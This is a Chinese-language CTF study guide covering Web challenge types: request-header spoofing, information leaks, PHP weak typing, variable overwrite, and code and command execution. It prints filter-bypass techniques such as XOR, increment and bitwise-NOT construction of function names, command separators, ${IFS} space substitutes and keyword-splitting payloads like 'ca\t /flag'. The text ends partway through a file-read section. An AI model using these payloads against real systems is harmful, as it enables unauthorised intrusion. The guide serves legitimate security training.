










# CTF 篇
## 1.1 CTF 比赛介绍

### 🔒 什么是 CTF

CTF（Capture The Flag）中文一般译作夺旗赛，在网络安全领域中指的是网络安全技术人员之间进行技术竞技的一种比赛形式。CTF起源于1996年DEFCON全球黑客大会，以代替之前黑客们通过互相发起真实攻击进行技术比拼的方式。已经成为全球范围网络安全圈流行的竞赛形式，而DEFCON作为CTF赛制的发源地，DEFCON CTF也成为了全球最高技术水平和影响力的CTF竞赛，类似于CTF赛场中的“世界杯”。

### 🔒 CTF 比赛方式

#### 解题模式

CTF是一种流行的信息安全竞赛形式，其英文名可直译为“夺得Flag”，也可意译为“夺旗赛”。其大致流程是，参赛团队之间通过进行攻防对抗、程序分析等形式，率先从主办方给出的比赛环境中得到一串具有一定格式的字符串或其他内容，并将其提交给主办方，从而夺得分数。为了方便称呼，我们把这样的内容称之为“Flag”。



#### 攻防模式（Attack-Defense）

在攻防模式CTF赛制中，参赛队伍在网络空间互相进行攻击和防守，挖掘网络服务漏洞并攻击对手服务来得分，修补自身服务漏洞进行防御来避免丢分。攻防模式CTF赛制可以实时通过得分反映出比赛情况，最终也以得分直接分出胜负，是一种竞争激烈，具有很强观赏性和高度透明性的网络安全赛制。在这种赛制中，不仅仅是比参赛队员的智力和技术，也比体力，需要长时间的高强度精神集中，同时也比团队之间的分工配合与合作。

比赛形式：一般就是一个 ssh 对应一个服务，可能是 web 也可能是 pwn，然后 flag 五分钟一轮，各队一般都有自己的初始分数，flag 被拿会被拿走 flag 的队伍均分，主办方会对每个队伍的服务进行 check，check 不过就扣分，扣除的分值由服务 check 正常的队伍均分。

### 🔒CTF比赛题目类型介绍

主要有六个类型:


#### 🌐 Web 网络攻防

Web 是 CTF 的主要题型，题目涉及到许多常见的 Web 漏洞，如 XSS、文件包含、代码执行、上传漏洞、SQL 注入等。也有一些简单的关于网络基础知识的考察，如返回包、TCP/IP、数据包内容和构造。可以说题目环境比较接近真实环境。

所需知识：PHP、JAVA、Python、TCP/IP、SQL

## 1.2 Web安全方向题目类型

### 1.2.1 请求头伪造

- **IP伪造**：通过伪造 `X-Forwarded-For` 头，模拟来自特定IP的请求，绕过基于IP的访问控制。例如：`X-Forwarded-For: 127.0.0.1`

- **来源伪造**：伪造 `Referer` 头为允许的域名（如 `Referer: https://www.example.com`）或为空，绕过资源的防盗链保护。

- **身份伪造**：修改或伪造 `Cookie` 值，尝试冒充管理员或其他用户身份。例如修改 `admin=1`。

- **客户端伪造**：模拟特定浏览器或爬虫（如 `User-Agent: Googlebot`），触发不同的代码路径或绕过WAF检测。


### 1.2.2 敏感信息泄露

- **备份文件泄露**：常见类型：`.rar`, `.zip`, `.bak`, `.swp` 等临时文件，危害：直接获取源代码及数据库配置
- **HTML源码泄露**：场景：注释中隐藏API接口、调试信息或敏感路径，危害：暴露网站结构与逻辑，提供攻击线索
- **git泄露**：原理：目录中存在 `.git` 文件夹导致版本信息泄露，危害：获取完整项目源码及历史提交记录
- **响应头泄露**：信息：Server版本、`X-Powered-By` 技术栈信息，危害：暴露服务器配置，方便针对性攻击


### 1.2.3 Web安全基础漏洞

- **SQL注入**：构造恶意 SQL 语句拼接进查询，读取 flag、账号密码或数据库敏感信息。
- **XSS漏洞**：插入恶意脚本窃取 Cookie 或模拟用户操作，获取管理员权限拿到 flag。
- **CSRF漏洞**：构造恶意页面诱导点击，冒充用户执行修改密码、获取 flag 等未授权操作。
- **文件上传漏洞**：绕过文件类型检测上传一句话木马，连接后执行命令读取 flag。
- **文件包含漏洞**：利用路径包含读取系统文件、日志或恶意文件，获取源码与 flag。
- **命令执行/代码执行**：通过可控参数执行系统命令，直接列出目录、读取 flag 文件。
- **弱口令 & 爆破**：账号密码过于简单，或无验证码防护，可通过字典暴力破解登录。
- **SSRF漏洞**：控制服务端访问内网或本地文件，读取 flag 或探测内网服务。


### 1.2.4 反序列化漏洞
- **序列化**：利用 `unserialize()` 可控参数，结合魔术方法 `__wakeup`/`__destruct` 等构造 POP 链执行恶意代码读取 flag。
- **phar反序列化**：无需 `unserialize()`，通过 `file_exists`、`include` 等文件操作触发 phar 结构反序列化 RCE。
- **POP链**：串联多个类的魔术方法与属性，从入口点一步步调用到代码执行、文件读取等危险操作。
- **原生类利用**：无自定义类可利用时，使用 PHP/Java/Python 内置类构造链，实现 SSRF、文件读取、命令执行。


### 1.2.5 非PHP语言常见考点

#### Python 安全考点
- **代码执行**：滥用 `eval()`、`exec()`、`os.system()` 等危险函数。
- **反序列化**：`pickle` 模块未过滤输入可导致任意代码执行。
- **模板注入**：Jinja2/Mako 等引擎的 SSTI 服务器端模板注入。

#### Java 安全考点
- **反序列化**：基于 `Serializable` 接口，利用 Gadget 链执行命令。
- **表达式注入**：OGNL (Struts2)、SpEL (Spring) 等表达式注入漏洞。
- **XXE 漏洞**：XML 外部实体注入，常见于解析不可信 XML 数据。

#### node.js 安全考点
- **原型链污染**：通过修改 `Object.prototype` 注入恶意属性/方法。
- **代码执行**：不当使用 `eval()` 或 `require()` 加载恶意模块。
- **路径遍历**：文件操作时未严格校验路径，导致任意文件读取。

## 1.3 CTF Web入门

### 1.3.1 php特性

在 CTF Web 赛道中，PHP 作为最常考察的编程语言之一，其相关题目设计往往围绕自身的语言特性展开，而非单纯的代码漏洞。PHP 的弱类型特性的核心是自动类型转换机制，这也是区别于其他强类型语言的关键，同时也是 CTF 题目中高频出现的考点来源。我们后续重点探讨的弱比较规则，正是基于这一特性衍生而来——无需手动转换数据类型，PHP 会自动根据场景调整数据格式进行比较，这一设计虽提升了使用便捷性，却也留下了可利用的空间。掌握 PHP 的弱类型特性以及对应的弱比较规则，是破解此类 CTF 题目的核心关键，也是后续我们重点拆解的内容，无论是构造 payload、绕过验证，还是获取 flag，都离不开对这些特性的熟练运用，这也是 PHP 类 CTF 题目区别于其他语言题目的核心所在。

通常语言有强类型和弱类型两种，强类型指的是强制数据类型的语言，就是说，一个变量一旦被定义了某个类型，如果不经过强制类型转换，这个变量就一直是这个类型，在变量使用之前必须声明变量的类型和名称，且不经强制转换不允许两种不同类型的变量互相操作。我们称之为强类型，而弱类型可以随意转换变量的类型，例如可以这样。

- **弱类型和强类型**：php并不会验证变量的类型，可以随时转换类型，php在大量内置函数以及基本结构中使用了很多松散的比较和转换，引发了很多安全问题。


- **若比较和强比较**：PHP 中有两种比较符号 `==` 与 `===`：
`===` 在进行比较时，会先判断两个变量的类型是否相等，再比较值。('404a'==404,true)
`==` 在进行比较时，会先将变量类型转化为相同，再比较值。
鉴于 PHP 是自动进行类型转换，所以会引发很多意想不到的问题。


- **科学计数法**：科学记数法不是PHP的特性，而是通用的数值表示方法（如`3e3 = 3×10³ = 3000`）。但PHP遵循了宽松的自动类型转换规则：当字符串（如`"3e3"`）与数字比较时，会先将字符串解析为对应数字（3000）再运算，因此`"3e3" > 999`返回`true`——这才是PHP的核心特点，也是CTF中常见的弱类型漏洞考点。*比如：限制输入字符而需要大于某一个数，就可以考虑科学计数法*


### 1.3.2 缺陷函数
PHP 作为弱类型语言，其很多内置函数的核心特征是参数类型的宽松处理机制：当向函数传递非预期类型的参数时，PHP 不会直接抛出类型错误终止运行，而是会按照预设的自动类型转换规则，将参数转换为函数可处理的类型后继续执行。这种设计虽提升了开发便捷性，却也成为 CTF 中利用函数漏洞的关键 —— 通过构造非预期的参数类型，触发函数的异常转换逻辑，进而绕过验证、篡改计算结果。

eg.
一、`md5()`函数获取不到数组的值，将返回`NULL`
二、`hash()`函数无法处理数组类型，将返回`NULL`
*如：需要你输入俩个不同的参数，然后对比其md5()的值，如果相同，则返回flag，这时就需要考虑传入数组*
三、`strcmp(str1，str2)`函数是用于比较两个字符串是否相等，如果两个字符串相等就会返回0，当`strcmp()`接收到数组进行比较时会出错的时候就会返回`null`，`null`即等同0。
四、`is_numeric()` 不算严格意义上的“缺陷函数”，而是 PHP 弱类型设计下“特性被恶意利用”的典型函数——它本身是按设计逻辑正常工作的，但由于其对“数值”的判定规则过于宽松，结合 PHP 自动类型转换，成为 CTF 中高频被利用的“漏洞点”。




### 1.3.3 信息泄漏

在 Web 安全攻防与 CTF 竞赛中，信息泄露往往是整个渗透过程的起点，也是最容易被忽视却至关重要的一环。很多时候无需复杂的代码审计或漏洞利用，仅仅是站点配置疏漏、开发遗留文件、前端代码未做脱敏处理等问题，就会直接暴露关键路径、账号线索、接口地址甚至源码内容，为后续攻击提供清晰的突破口。信息泄露本身不属于高危代码漏洞，却常常成为获取权限、绕过限制、拿到 flag 的关键跳板。

常见的信息泄露形式分散且隐蔽，既包括站点公开目录配置不当导致的敏感文件暴露，也包含前端页面与脚本中隐含的关键数据。例如 HTML 页面注释残留、robots.txt 协议泄露禁止访问路径、JavaScript 文件硬编码接口与密钥、编辑器异常退出产生的.swp 等临时文件，都是典型且高频的泄露场景。对这类泄露点的快速识别与利用，不仅能大幅提升攻防效率，也是 Web 安全入门与 CTF 实战中必须掌握的基础能力。

- **html源码**：
方法1，右键->查看网页源代码，或者快捷方式`ctrl+U`
方法2，在链接前面加上`view-source:`
方法3，使用抓包工具或`curl`等非浏览器工具
- **robots.txt**：
在 CTF Web 信息泄露考点中，`robots.txt` 是仅次于 HTML 注释的高频基础考点，其本质是网站为引导搜索引擎爬虫抓取规则而创建的配置文件，通常存放在网站根目录下（可直接通过`域名/robots.txt`访问）。这本是规范爬虫行为的合法文件，却因开发者的疏忽，成为泄露网站敏感路径的“重灾区”。

`robots.txt` 的核心作用是告知爬虫“哪些目录/文件允许抓取、哪些禁止抓取”，但在 CTF 场景中，“禁止抓取”的配置恰恰会反向暴露关键信息——比如标注`Disallow: /admin/`意味着存在后台管理页面，`Disallow: /flag.php`直接指向存放 flag 的核心文件，甚至部分题目会在 `robots.txt` 中直接遗留解题提示或隐藏路径（如`Disallow: /hidden/secret.txt`）。

这类泄露的利用门槛极低，只需直接访问 `robots.txt` 文件即可获取线索，无需任何复杂操作，是 CTF 入门阶段必须掌握的信息收集技巧。同时，`robots.txt` 也常与其他泄露场景结合出题（如通过其暴露的路径，进一步分析和利用），是串联信息泄露考点的关键节点。
*使用nmap扫描敏感文件*

- **js信息泄露**：
在 CTF Web 信息泄露考点体系中，JavaScript 文件（包括内嵌 JS、外部.js 文件）是极易藏有敏感信息的“隐蔽角落”，也是继 HTML 注释、robots.txt 之后的核心考点。JS 作为前端交互的核心载体，开发者常因便捷性将敏感数据硬编码在其中，却忽略了前端代码完全可被用户查看的特性，最终导致关键信息泄露。

CTF 场景中，JS 信息泄露的形式多样且极具实战价值：可能是硬编码的 API 接口地址、接口请求密钥 / Token、未脱敏的测试账号密码；也可能是隐藏的功能路径（如/api/flag）、前端验证的核心逻辑（如密码加密规则），甚至是解题所需的 flag 片段或绕过提示。这类泄露不像 HTML 注释那样直观，往往需要分析 JS 代码逻辑、查找 AJAX 请求地址、解析加密函数参数才能发现，但一旦找到，就能直接指向核心漏洞点（如通过 JS 暴露的接口地址，构造请求获取 flag）。

掌握 JS 信息泄露的挖掘方法，不仅能获取关键解题线索，更能培养前端代码审计的基础能力，也是衔接“前端绕过”与“后端漏洞利用”的重要桥梁。

- **vim信息泄露**：
在 CTF Web 信息泄露考点中，vim 临时文件泄露是极具“实战特征”的高频考点，区别于 HTML 注释、robots.txt 等人为标注类泄露，它源于开发者使用 vim 编辑器编写 / 修改代码时的系统级遗留文件，属于开发环境疏漏导致的泄露场景。

**vim 编辑器在编辑文件时，会自动生成以~结尾的备份文件（如`index.php~`）或`.swp/.swo/.swn`格式的临时交换文件（如`.index.php.swp`），用于意外退出时恢复内容。正常情况下这些文件应被清理，但开发者常因疏忽将其遗留在服务器上**，而 CTF 题目中，这类文件往往直接存储着未删除的源码、配置信息甚至完整的 flag 内容——比如通过访问`.flag.php.swp`，可直接还原出被删除或未上线的`flag.php`源码，成为解题的“捷径”。

这类泄露的利用逻辑简单但识别门槛稍高，需要掌握 vim 临时文件的命名规则与恢复方法，也是 CTF 中考察“开发环境细节”的典型考点，同时能延伸出`.git`、`.DS_Store` 等同类文件泄露的解题思路。
*vim -r 文件名恢复文件*，可以查看原始文件中的内容

- **变量覆盖**
在 CTF Web 赛道的 PHP 漏洞利用考点中，变量覆盖是一类高频且高危的代码逻辑漏洞，也是考察代码审计能力的核心题型。变量覆盖的本质是攻击者通过可控的输入参数，篡改程序中已定义的变量值 —— 原本应受程序逻辑控制的变量，被外部输入强行修改，进而破坏原有业务逻辑，成为获取敏感信息或控制程序执行的突破口。

CTF 场景中，变量覆盖的触发场景高度集中在 PHP 代码的不规范编写中：最典型的是滥用`$$`可变变量（如遍历 GET/POST 参数直接赋值），也包括`extract()`、`parse_str()`等函数在未做严格过滤的情况下处理用户输入，或是对全局变量、会话变量的无校验赋值。这类漏洞的危害极具针对性，攻击者可通过覆盖权限校验变量（如`$auth = 1`）绕过登录、覆盖文件路径变量读取 flag 文件、甚至覆盖代码执行参数触发恶意操作。

掌握变量覆盖的核心在于定位可被覆盖的变量与可控输入点，构造精准的 payload 修改关键变量值，这也是 CTF 中 PHP 代码审计的基础能力，更是突破各类逻辑限制类题目的关键思路。

### 1.3.4 变量覆盖

#### 一、漏洞本质
- 攻击者通过**可控输入参数**，篡改程序中已定义的变量值
- 原本受程序逻辑控制的变量被外部输入强行修改，破坏原有业务逻辑
- 可作为获取敏感信息或控制程序执行的突破口

#### 二、典型触发场景（CTF中高频）
1.  **滥用`$$`可变变量**：遍历`GET/POST`参数直接赋值
2.  **危险函数未过滤**：`extract()`、`parse_str()`等函数处理用户输入时未做严格校验
3.  **全局/会话变量无校验赋值**：直接对全局变量、会话变量赋值且未做合法性检查

#### 三、主要危害
- 覆盖权限校验变量（如`$auth = 1`）绕过登录验证
- 覆盖文件路径变量读取`flag`等敏感文件
- 覆盖代码执行参数触发恶意操作（如命令执行、代码注入）

#### 四、核心利用思路
1.  定位**可被覆盖的变量**与**可控输入点**
2.  构造精准`payload`修改关键变量值
3.  突破程序逻辑限制，达成攻击目标

- **变量覆盖-GLOBALS**:

在 CTF Web 的 PHP 变量覆盖考点中，$GLOBALS超全局变量是最具代表性的利用载体，也是高频出现的核心考点。$GLOBALS是 PHP 内置的超全局数组，用于存储所有全局作用域的变量，其特殊之处在于 —— 无论在函数内还是函数外，都能通过$GLOBALS['变量名']直接访问或修改全局变量，这一特性使其成为变量覆盖攻击的关键突破口。

### 1.3.5 请求头

在 CTF Web 赛道中，HTTP 请求头是一类兼具基础与实战价值的高频考点，它作为客户端与服务端通信的核心载体，不仅承载着请求的基础信息（如浏览器类型、请求方式、数据格式），更常被出题人设计为权限验证、逻辑绕过、信息获取的关键突破口。

HTTP 请求头本身是规范的通信格式，但其可被攻击者自由构造和篡改的特性，使其成为 CTF 中的重要利用点。常见的考点场景包括：通过修改User-Agent伪装特定浏览器 / 设备绕过访问限制；篡改Referer验证请求来源，突破页面跳转或权限校验；利用X-Forwarded-For伪造客户端 IP，绕过 IP 白名单；或是通过Cookie/Authorization等请求头篡改身份凭证，获取敏感权限。此外，部分题目还会将 flag 片段、解题提示隐藏在自定义请求头（如X-Flag: hint{xxx}）中，需通过抓包分析才能发现。

- **cookie伪造**：
在 CTF Web 的请求头相关考点中，Cookie 是最核心且高频的考察对象，它作为服务端存储在客户端的小型数据片段，主要用于维持用户会话、记录身份状态等，却因可被客户端篡改的特性，成为权限绕过、信息伪造的关键突破口。

**Cookie 的核心作用是在无状态的 HTTP 协议中建立 “状态记忆” —— 比如登录后服务端下发的 user=admin或token=xxx，会以 Cookie 形式存储在浏览器中，后续请求自动携带该 Cookie 完成身份验证。**但在 CTF 场景中，出题人常利用 Cookie 的校验逻辑设计考点：例如直接篡改 Cookie 中的权限字段（如将 is_admin=0改为is_admin=1）绕过后台验证；破解 Cookie 的简单加密 / 编码（如 Base64、MD5）获取真实身份信息；或是利用 Cookie 的过期时间、Domain/Path 属性构造跨域访问漏洞。此外，部分题目还会将 flag 直接隐藏在自定义 Cookie（如flag=ctf{xxx}）中，仅需抓包查看即可获取。

掌握 Cookie 的利用思路，核心是通过抓包工具（如 Burp Suite）查看、修改 Cookie 内容，分析服务端的校验规则，这既是 Web 会话机制的基础考点，也是 CTF 中绕过身份验证、获取敏感信息的核心方法。
*burpsuite工具：抓包-查看-重放*
- **请求头-X-Forwarded-For**：

在 CTF Web 攻防与请求头伪造类题目中，**X-Forwarded-For（简称 XFF）是极为经典的 IP 伪造与绕过类考点。该字段本身是用于记录 HTTP 请求经过的代理服务器 IP 的请求头，本意是帮助服务端识别真实客户端地址，却常因服务端对其过度信任、未做校验与过滤，成为攻击者伪造 IP 的重要手段**。

在 CTF 题目环境中，许多校验逻辑会直接读取X-Forwarded-For作为用户真实 IP，并以此进行权限判断、访问限制或日志记录。例如题目限制仅本地127.0.0.1可访问、仅指定 IP 段能查看 flag、或禁止某些 IP 访问时，攻击者只需在请求头中手动构造X-Forwarded-For: 127.0.0.1，即可伪装成内网 IP 或合法 IP 绕过限制。

### 1.3.6 响应头

在 CTF Web 题目中，**HTTP 响应头同样是不容忽视的信息来源与考点。响应头由服务端返回，用于向浏览器告知响应类型、缓存策略、服务信息、安全策略等内容，虽然不会直接显示在页面上，却常常隐藏着关键线索与解题入口**。

很多时候，页面内容看似无异常，但通过抓包查看响应头，就能发现大量敏感信息：比如服务器版本、开发框架类型、后端语言信息可用于版本漏洞检索；Set-Cookie 字段会下发身份凭证，是伪造身份、篡改权限的重要依据；Location 字段可能指向隐藏跳转地址或后台路径；甚至部分题目会直接将 flag、提示信息放在自定义响应头中，仅需查看数据包即可获取。

除此之外，一些安全相关的响应头配置缺失或错误，也会成为解题突破口，例如 CORS 跨域头配置不当、X-Frame-Options 未设置导致点击劫持等。学会查看与分析 HTTP 响应头，既是信息收集的基础环节，也是 CTF 中发现隐蔽线索、突破权限限制的常用手段。

## 1.4 CTF Web进阶(绕过技巧)

***大部分绕过都是为了绕过黑名单过滤，或者以白名单的形式注入恶意输入***

### 1.4.1 代码执行

在 CTF 的 PHP 安全考点里，代码执行是一类直接让服务端解析并运行攻击者构造代码的高危漏洞，也是考察 PHP 语法特性与代码审计能力的核心内容。它指的是攻击者通过可控输入，将原本用于正常业务的字符串，变成可被 PHP 直接执行的代码，从而完全控制程序逻辑。

这类漏洞几乎都来自 PHP 自身灵活的动态特性与危险函数的不当使用。常见考点主要包括：eval()、assert() 等直接执行字符串代码的函数；create_function() 这类动态创建函数时产生的代码注入；利用可变变量、变量函数等动态调用特性构造执行流程；以及 preg_replace() 使用 /e 修饰符带来的代码执行风险等。

与命令执行不同，PHP 代码执行更侧重于让 PHP 自身解析并运行恶意代码，可以用于读取文件、覆盖变量、绕过权限判断，甚至进一步获取系统权限。在 CTF 中，这类题目往往还会搭配过滤规则，考察选手通过字符串拼接、编码、异或、取反等方式绕过关键字检测的能力，是进阶 Web 题目的典型考察形式。

eg.
```php
<?php
highlight_file(__FILE__);
$a = "system";
$b = "whoami";
$a($b);
?>
```
在上述代码中，攻击者构造了 system("whoami") 这样的字符串，并将其赋值给变量 $a，然后调用 $a() 执行，从而达到系统命令执行的目的。
```php
<?php
if(isset($_GET['code'])){
    $code=$_GET['code'];
    if(preg_match("/[A-Za-z0-9]+/",$code)){
        die("NO.");
    }
    eval($code);
}else{
    highlight_file(__FILE__);
}
?>
```
- **代码执行-异或**：
在 CTF 的 PHP 代码执行考点中，异或（^）绕过是极具代表性的进阶技巧，也是突破关键字过滤的核心方法之一。当题目对eval()、assert()等代码执行函数名设置严格黑名单（如直接过滤eval、assert字符串）时，攻击者无法直接构造函数名触发代码执行，而异或运算的特性恰好能绕过这类限制，成为构造恶意代码的关键手段。

PHP 中异或运算的核心原理是：对两个非字母数字的 ASCII 字符进行异或运算，可得到字母、数字等可执行的字符，且无需直接出现被过滤的关键字。例如，""^"!"异或结果为e，"@"^""异或结果为v，通过组合不同字符的异或结果，可拼接出eval、assert等函数名，进而构造可执行的 PHP 代码。




- **代码自增**：
在 CTF 的 PHP 代码执行过滤绕过考点中，字符自增（`++`）绕过 是另一类经典且高频的进阶技巧，核心用于突破对字母、数字关键字的严格过滤（如过滤`eval`、`assert`等函数名字符）。与异或绕过依赖字符运算不同，自增绕过利用 PHP 对字符的特殊处理规则 —— 单个字符变量执行自增操作时，会按照 ASCII 码顺序递增，无需直接输入被过滤的关键字即可拼接出恶意函数名。

PHP 中字符自增的核心规则是：`'a'++`得到`'b'`、非字母字符（如`'!'`、`'@'`）自增也会按 ASCII 码向字母方向逼近。例如，先构造空字符或非字母字符（如`$a = '!'`），通过多次自增操作（`$a++`）得到`'a'`，再依次自增得到`'s'`、`'s'`、`'e'`、`'r'`、`'t'`，最终拼接出`assert`函数名。

- **代码执行-取反**：
在 CTF 的 PHP 代码执行过滤绕过考点中，取反（~）运算绕过是与异或、自增并列的核心技巧，尤其适用于**严格禁止字母数字、仅允许特殊符号**的极致过滤场景。其核心原理是利用 PHP 对字符 ASCII 码的位运算特性 —— 对一个字符的 ASCII 码取反后，再通过取反运算还原，可间接构造出被过滤的关键字，全程无需直接输入eval、assert等敏感字符串。

PHP 取反绕过的关键逻辑是：先计算目标字符（如e、v）的 ASCII 码，对其进行按位取反得到对应的特殊字符，再在代码中通过~运算符还原。例如，字符e的 ASCII 码是 101，取反后得到\x9c（非打印特殊字符），在 PHP 中执行~"\x9c"即可还原为e；通过组合多个取反字符（如~"\x9c" . ~"\x86"），可拼接出eval、assert等代码执行函数名。
```php
<?php
$system='system';
echo urlencode(~$system);
echo "\n";
$command='ls';
echo urlencode(~$command);
?>
```
### 1.4.2 命令执行

在 CTF Web 赛道中，命令执行是与代码执行并列的高危漏洞考点，核心区别在于：**代码执行是让服务器解析运行编程语言代码（如 PHP），而命令执行是让服务器直接执行操作系统的系统命令**（如 Linux 的 `cat/ls`、Windows 的 `dir/type`），其漏洞成因多为开发者将用户可控输入直接拼接进系统命令执行函数，未做严格过滤。

命令执行漏洞危害极高，一旦利用成功可直接读取 flag、控制服务器，是 CTF 中区分基础与进阶水平的核心考点，其解题关键在于识别命令执行函数、分析过滤规则、构造绕过 Payload。

#### 命令执行-管道符

在利用远程命令执行漏洞的过程中，攻击者通常使用命令分隔符构造恶意输入。通过命令分隔符，操作系统不仅会执行原有的命令，还会执行攻击者构造的恶意命令。下表列出了适用于Linux环境的常见命令分隔符、使用形式及其说明：

- `;`：前面和后面命令都要执行，无论前面真假
- `|`：直接执行后面的语句
- `||`：如果前面命令是错的那么就执行后面的语句，否则只执行前面的语句
- `&`：前面和后面命令都要执行，无论前面真假
- `&&`：如果前面为假，后面的命令也不执行，如果前面为真则执行两条命令
- `%0a`：换行

#### 命令执行-空格绕过

CTF 命令执行题目中，出题方会通过黑名单过滤物理空格（比如用正则匹配空格并删除），阻止`cat /flag`这类带空格的命令执行。空格绕过的核心逻辑是：利用 Linux 系统本身认可的 “空白分隔符” 或 “语法特性”，替代被过滤的物理空格，让系统仍能识别命令与参数的分隔。

- `${IFS}`
- `${IFS}$9`
- `$IFS$9`
- 重定向符：`<>`（但是不支持后面跟通配符）
- 水平制表符`%09`
- `%0a` 回车
- `%0d` 换行

#### 命令执行-关键字绕过

CTF 命令执行题目中，出题方会针对核心关键字设置黑名单过滤（比如过滤`cat`、`flag`、`system`、`bash`等），阻止攻击者执行关键命令。关键字绕过的核心逻辑是：通过 Linux / 编程语言的语法特性，变形关键字但不改变其功能，让过滤规则失效，同时系统仍能识别并执行。

##### 方法 1：符号分隔（\）
- 原理：Linux 中反斜杠`\`是转义符，可拆分命令关键字，系统会自动拼接执行。
- 示例：过滤`cat`时，写为`ca\t /flag`（等价于`cat /flag`）；过滤`ls`时，写为`l\s`。

##### 方法 2：通配符替代（*）
- 原理：用通配符`*`匹配关键字的部分字符，系统自动补全。
- 示例：过滤`flag`时，写为`cat /fl*`、`cat /f?ag`。

##### 方法 3：环境变量拼接
- 原理：将关键字拆分为多个变量，拼接后执行，避开黑名单检测。
- 示例：过滤`cat`时，执行`a=ca;b=t;$a$b /flag`（`$a$b`拼接为`cat`）；过滤`whoami`时，执行`a=who;b=ami;$a$b`。

### 1.4.3 文件读取

#### CTF Web 文件读取考点总结
文件读取是 CTF Web 方向最基础且高频的考点，核心考察路径构造、伪协议利用、过滤绕过及指定内容匹配读取能力。题目通常提供可控的文件路径/内容参数，攻击者需读取服务器敏感文件（flag、源码、配置），或匹配文件内指定内容以获取 flag。

###### 核心考点
- 利用 `../` 进行目录穿越读取任意文件
- 通过 `php://filter` 伪协议读取 PHP 源码
